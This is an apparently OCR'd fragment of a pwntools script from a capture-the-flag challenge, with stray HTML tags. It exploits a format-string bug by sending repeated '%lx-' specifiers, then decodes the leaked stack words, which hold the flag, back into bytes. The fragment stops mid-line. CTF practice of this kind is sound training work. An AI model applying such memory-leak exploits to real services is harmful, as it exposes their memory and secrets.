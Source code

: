 <br />
p.recvuntil(b'')<br />
p.sendline(payload)<br />
answer = p.recvall().decode('latin-1')<br />
print(answer)<br />
<br />
encode=""<br />
encode+="".join( x <strong>for</strong> x <strong>in</strong>
"402118-0-7f4438dcea00-0-11a5880-a347834-7ffd682d13a0-7f4438bbfe60-7f4438de44d0-1-7ffd682d1470-0-0-7b4654436f636970-355f31346d316e34-3478345f33317937-31395f673431665f-7d653464663533-7-7f4438de68d8-2300000007-206e693374307250-a336c797453-9-7f4438df7de9-7f4438bc8098-7f4438de44d0-0-7ffd682d1480-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-0-11a3680-1-7f4438be1d90-0-4011f6-100000000-7ffd682d18f8-0-cbb36f4493fa1e15-7ffd682d18f8-4011f6-403e18-7f4438e20040-3449bf1ebc181e15-353b1e38a9701e15-7f4400000000-0-0-0-0-4f23a51a36a64b00-0-7f4438be1e40-7ffd682d1908-403e18-7f4438e212e0-0-0-401110-7ffd682d18f0-0-0-401135-7ffd682d18e8-1c-1-7ffd682d1ea6-0-7ffd682d1ec1-7ffd682d1ed4-7ffd682d1edc-7ffd682d1ef9-7ffd682d1f04-7ffd682d1f19-7ffd682d1f37-7ffd682d1f4d-7ffd682d1f61-7ffd682d1f72-7ffd682d1fb4-7ffd682d1fc3-7ffd682d1fd0-0-21-7ffd683ec000-33-e30-10-1f8bfbff-6-1000-11-64-3-400040-4-38-5-d-7-7f4438de6000-8-0-9-401110-b-0-c-0-d-0-e-0-17-0-19-7ffd682d1ae9-1a-2-1f-7ffd682d1fdd-f-7ffd682d1af9-1b-1c-1c-20-0-0-".split("-"))<br />
print(encode)<br />
memory = [pwn.p64(int(x,16)) <strong>for</strong> x <strong>in</strong>